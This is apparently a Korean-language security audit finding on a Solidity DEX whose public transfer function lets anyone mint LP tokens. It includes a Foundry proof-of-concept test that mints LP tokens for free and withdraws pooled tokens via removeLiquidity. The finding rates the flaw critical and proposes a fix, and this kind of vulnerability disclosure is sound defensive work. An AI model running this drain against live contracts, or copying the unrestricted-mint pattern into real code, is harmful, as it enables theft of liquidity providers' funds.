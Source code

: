 ## 김영운, 김지우, 구민재

### 설명

문제 발생 - transfer function

```solidity
function transfer(address to, uint256 lpAmount) public override(ERC20, IDex) returns (bool) { //visibility
        _mint(to, lpAmount);
        return true;
}
```

- transfer 함수의 visibility가 public으로 설정되어 있어 누구나 호출할 수 있음
- _mint를 누구나할 수 있어 totalSupply(LP token양)를 조작할 수 있음

테스트

```solidity

contract CustomERC20 is ERC20 {
    constructor(string memory tokenName) ERC20(tokenName, tokenName) {
        _mint(msg.sender, 1000 ether);
    }

    function mint(uint amount) external {
        _mint(msg.sender,amount);
    }
}

contract DexTest is Test {
    Dex public dex;
    CustomERC20 tokenX;
    CustomERC20 tokenY;

    address player1 = address(0x1234);
    address player2 = address(0x1235);
    address player3 = address(0x1236);
    address player4 = address(0x1237);

    function setUp() public {
        tokenX = new CustomERC20("XXX");
        tokenY = new CustomERC20("YYY");

        dex = new Dex(address(tokenX), address(tokenY));

        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);

        vm.startPrank(player1);
        tokenX.mint(10000 ether);
        tokenY.mint(10000 ether);
        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);
        dex.addLiquidity(1000 ether, 1000 ether, 0); //lp = 1000
        vm.stopPrank();

        vm.startPrank(player2);
        tokenX.mint(10000 ether);
        tokenY.mint(10000 ether);
        tokenX.approve(address(dex), type(uint).max);
        tokenY.approve(address(dex), type(uint).max);
        dex.addLiquidity(1000 ether, 1000 ether, 0); //lp = 1000
        vm.stopPrank();

    }

    function testTransfer() external {
        vm.startPrank(player3);
        uint before = dex.balanceOf(player3);
        emit log_named_uint("before",before);
        bool t = dex.transfer(player3, 100 ether);
        uint a = dex.balanceOf(player3);
        emit log_named_uint("after",a);

        emit log_named_uint("before x:", tokenX.balanceOf(player3));
        emit log_named_uint("before y:", tokenY.balanceOf(player3));
        dex.removeLiquidity(dex.balanceOf(player3), 0,0);
        emit log_named_uint("after  x:", tokenX.balanceOf(player3));
        emit log_named_uint("after  y:", tokenY.balanceOf(player3));
        vm.stopPrank();
    }
}
```
<img width="432" alt="스크린샷 2023-03-26 오후 8 37 22" src="https://user-images.githubusercontent.com/127647051/227773104-9f0d829b-2cbd-4c8a-b556-4f3b75a8135c.png">


- player1, player2가 pool에 liquidity를 공급하였을때, player3가 100 ether를 mint하여 해당 LP token만큼 removeLiquidity할 수 있음

### 파급력

- Critical → 공격자는 mint 함수를 통해 LP token을 발행하여, liquidity를 pool에 공급하지 않더라도 pool에 있는 토큰을 모두 remove할 수 있음

### 해결방안

- transfer 함수의 visibility를 public → internal/private로 변경하기
